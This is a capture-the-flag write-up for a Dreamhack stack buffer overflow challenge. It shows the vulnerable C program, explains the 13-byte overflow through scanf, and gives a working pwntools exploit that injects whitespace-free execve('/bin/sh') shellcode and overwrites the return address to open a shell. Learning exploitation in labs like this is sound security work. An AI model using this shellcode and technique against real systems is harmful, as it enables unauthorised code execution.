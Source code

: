 ```yaml
---
title: "(pwnable) bof + shellcode"
published: true
---
```


# Problem code
A stack overflow is a major security issue. How can we exploit this vulernability?

```c
  1 #include <stdio.h>
  2 #include <stdlib.h>
  3 #include <signal.h>
  4 #include <unistd.h>
  5
  6
  7 void alarm_handler() {
  8     puts("TIME OUT");
  9     exit(-1);
 10 }
 11
 12
 13 void initialize() {
 14     setvbuf(stdin, NULL, _IONBF, 0);
 15     setvbuf(stdout, NULL, _IONBF, 0);
 16
 17     signal(SIGALRM, alarm_handler);
 18     alarm(30);
 19 }
 20
 21
 22 int main(int argc, char *argv[]) {
 23
 24     char buf[0x80];
 25
 26     initialize();
 27
 28     printf("buf = (%p)\n", buf);
 29     scanf("%141s", buf);
 30
 31     return 0;
 32 }
```

# Vulnerability
`scanf(%141s)` reads **141 Bytes**, but `buf` has a size of only 0x80(**128 Bytes**). This results in a 13-Byte overflow. And the `printf()` function prints the address of `buf`, allowing us to know the exact address of `buf`. 
Since `buf` is local variable in the `main` function, it is stored on the **program stack.**
Then we can use this overflow to inject a shellcode such as `execve("/bin/sh", 0, 0)`, and overwrite the return address with `&buf`. When the function returns `return 0`, it will jump to our shellcode, giving us a shell. 
![](https://i.imgur.com/Uhcs5l8.png)
# Solution

```python
  1 from pwn import *
  2
  3 context.log_level = 'debug'
  4 context.arch = 'i386'
  5 # p = process('./basic_exploitation_000')
  6 p = remote("host3.dreamhack.games", 19690)
  7 sh = asm(shellcraft.execve("/bin/sh", 0, 0)) # shellcode of execve
  8 p.recvuntil(b"buf = (")
  9 addr = p.recvuntil(b")", drop = True)
 10 addr = addr.decode()
 11 # shellcode of execve, scanf detour version
 12 sh = b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
 13 payload = sh + b'A' * (0x84 - len(sh)) + p32(int(addr,16))
 14 p.sendline(payload)
 15
 16 p.interactive()
 17                       
```

An error will occur if we use `sh = asm(shellcraft.execve("/bin/sh", 0, 0))`. Because `scanf()` stops reading when it encounters whitespace characters such as `" ", "\t", "\n"` in the input stream. Therefore we must use a shellcode that does not contain any of these bytes. [Here is an example.](https://gist.github.com/Zhang1933/0d1c7b69af48483832eb2d6b22de287e)



